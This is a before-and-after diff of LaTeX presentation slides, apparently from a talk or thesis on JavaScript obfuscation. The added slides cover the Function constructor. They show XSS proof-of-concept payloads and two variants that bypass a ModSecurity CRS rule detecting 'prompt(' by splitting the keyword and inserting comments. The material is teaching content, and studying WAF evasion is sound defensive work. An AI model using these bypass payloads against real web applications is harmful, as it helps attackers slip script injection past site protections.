

Before and after one commit to sebstec/mt, LaTeX slides (presentation/presentation.tex): page 52 of 61 before the commit and pages 51 and 52 of 69 after it, the two joined at a grey line, the shorter picture padded with empty space. Compiled offline with XeLaTeX.

Commit message:
feat: function constructor fix: some typos

```diff
--- a/presentation/presentation.tex
+++ b/presentation/presentation.tex
@@ -165,4 +165,39 @@
 	\end{vfilleditems}
 \end{frame}
 
+\section{Function constructor}
+\begin{frame}[fragile]{Function constructor}
+	\begin{vfilleditems}
+		\item<2-> Allows to create functions which execute in the global scope
+		\item<3-> Can be used directly to create and execute a function:
+		\begin{lstlisting}[style=basicStyle, language=Python]
+new Function("alert(1)")()
+\end{lstlisting}
+		\item<4-> Can be accessed via built-in objects and functions:
+		\begin{lstlisting}[style=basicStyle, language=Python]
+Error.constructor.constructor("alert(1)")()
+isNaN.constructor("alert(1)")()
+\end{lstlisting}
+	\end{vfilleditems}
+\end{frame}
 
+\begin{frame}[fragile]{Function constructor - prompt(s,s) blocked}
+	% \begin{lstlisting}[style=ruleStyle, language=XML, caption={prompt(1,2) blocked}, label=lst:promptblocked]
+	\begin{lstlisting}[style=ruleStyle, language=XML]
+<payload>var s = 'secret'; prompt(s, s)</payload>
+
+<message>"Javascript method detected"</message>
+<file>"rules/REQUEST-941-APPLICATION-ATTACK-XSS.conf"</file>
+<fileDetails>[line "714"] [id "941390"]<fileDetails>
+<MatchedData>"prompt("</MatchedData>
+\end{lstlisting}
+\end{frame}
+
+\begin{frame}[fragile]{Function constructor - prompt(s,s) bypass 1}
+	\begin{lstlisting}[style=basicStyle, language=Python]
+[]['constructor']['constructor'](`var s = 'secret'; promp` + `t(s, s)`)()
+\end{lstlisting}
+\end{frame}
+
+
+\begin{frame}[fragile]{Function constructor - prompt(s,s) bypass 1 - invalid}
@@ -168,0 +209,7 @@
+\begin{frame}[fragile]{Function constructor - prompt(s,s) bypass 2}
+	\begin{lstlisting}[style=basicStyle, language=Python]
+[]['constructor']['constructor'](`var/**/s/**/=/**/    'secret';/**/promp`/**/+/**/`t(s,/**/s)`)()
+\end{lstlisting}
+\end{frame}
+
+\section*{Function constructor demo}
@@ -169,8 +219,11 @@
+	\supertext{Function constructor demo}
+	\vfill
+\end{frame}
 
 \section{Aurebesh.js}
 
 \begin{frame}[fragile]{Aurebesh.js}
 	\begin{vfilleditems}
-		\item<2-> Similar to JSFuck \cite{mk/jsfuck}
+		\item<2-> Similar to JSFuck \cite{mk/jsfuck}, also created by Martin Kleppe \cite{mk/aurebesh}
 		\item<3-> Write valid JavaScript statements calling \verb|alert(1)|
 		\item<4-> Using the characters \verb|() + [] ! " = {}| and 1 to 9 other characters of choice
```
Also changed, not shown: presentation/presentation.tex (15 more changed lines), 1 other file.
